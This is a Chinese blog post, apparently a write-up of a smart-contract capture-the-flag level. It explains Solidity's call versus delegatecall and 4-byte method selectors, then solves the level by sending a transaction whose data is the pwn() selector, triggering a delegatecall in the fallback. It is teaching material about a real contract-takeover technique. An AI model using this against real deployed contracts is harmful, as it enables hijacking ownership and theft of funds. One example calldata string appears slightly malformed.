

第二天，在玩几个题。

这题要了解Solidity的delegatecall函数。

<!--more-->

# delegatecall

有两个函数用于调用其他智能合约函数：call和delegatecall。

为了区分清楚，使用delegatecall的合约称为**调用合约**，被调用的称为**目标合约**。

delegatecall更加底层一点，相当于直接把目标合约函数的字节码拿过来，继续执行，其他什么都不改。

而call稍微执行的复杂一点，会去修改执行环境的存储空间和上下文。

总而言之：

| 特性     | call                                         | delegatecall                                       |
| -------- | -------------------------------------------- | -------------------------------------------------- |
| 存储     | 修改目标合约的存储                           | 修改调用合约的存储                                 |
| 上下文   | 执行目标合约的上下文，使用目标合约的环境变量 | 执行目标合约的代码，但使用调用合约的存储和环境变量 |
| 合约地址 | 调用目标合约的地址                           | 调用合约的地址（this 指向调用合约）                |


# Methods ID

Method ID（方法标识符，函数选择器）是一个 **4 字节** 长度的哈希值，它用于标识调用函数的标识符。方法 ID 是从函数的 **函数签名** 生成的，函数签名是由函数名称和参数类型（包括返回值类型）组成的字符串。它被用作区分不同函数的标识符，尤其是在与合约进行低级调用时。

可以用abi的encodeWithSignature计算ID例如：

```
abi.encodeWithSignature("setValue(uint256)", _value)
```

理论上这样计算出来的函数ID有可能发生冲突，但是概率非常低。或许有可能被里用这个漏洞。


# 解题

了解了这些，这一题就很简单了。

获取pwn的Methods ID

```
_ethers.utils.id("pwn()").slice(0,10)
'0xdd365b8b'
```

然后直接发送事务：

```
await contract.sendTransaction({data: '0xdd365b8b'})
```

正常调用合约函数的时候，本质上也是发送事务，只不过自动设置了data。

例如，合约的 transfer(address,uint256) 函数：

```
0xa9059cbb  // 4 字节 Method ID（函数签名：transfer(address,uint256)）
0x000000000000000000000000abc1234567890def1234567890abcdef12345678  // 地址参数：recipient
0x000000000000000000000000000000000000000000000000000000000000001e  // uint256 参数：amount
```

调用transfer时，msg.data就是：

```
0xa9059cbb000000000000000000000000abc1234567890def1234567890abcdef1234567800000000000000000000000000000000000000000000000000000000000001e
```


我们设置了msg.data，合约检测不到同名的函数，就执行fallback。


